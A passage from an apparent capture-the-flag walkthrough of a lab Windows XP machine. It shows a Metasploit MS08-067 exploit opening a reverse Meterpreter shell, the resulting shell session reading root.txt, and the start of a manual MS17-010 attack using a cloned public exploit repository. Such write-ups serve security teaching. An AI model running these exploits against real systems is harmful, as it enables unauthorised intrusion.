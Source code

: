 So, all we have to do now is just type `exploit` or `run` and we'll get a meterpreter shell back.
```bash
msf6 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.14.7:1337 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:Unknown
[*] 10.10.10.4:445 - We could not detect the language pack, defaulting to English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.7:1337 -> 10.10.10.4:1028) at 2021-08-26 12:25:35 -0700

meterpreter > 
```

So, we can spawn a shell and check who we are:
```bash
meterpreter > shell
Process 1404 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>echo %username%
echo %username%
LEGACY$
C:\WINDOWS\system32>cd "C:\Documents and Settings"
cd "C:\Documents and Settings"

C:\Documents and Settings>cd Administrator\Desktop
cd Administrator\Desktop

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
********************************

```

Well, that was pretty easy, now we'll be exploiting this machine without metasploit.

## Without Metasploit:
Firstly, I found a github repository that I used to manually exploit `MS17-010`.
[Github](https://github.com/helviojunior/MS17-010) So, we'll be firstly cloning this repo:
```bash
git clone https://github.com/helviojunior/MS17-010
```
Now, we'll be checking for the available `pipes` that'll be used in exploiting.
For this, we'll be utilizing `checker.py`. Since I cloned this repository in `/opt/` directory, i'll be using the following command to invoke this:
```bash
python /opt/MS17-010/checker.py 10.10.10.4
```

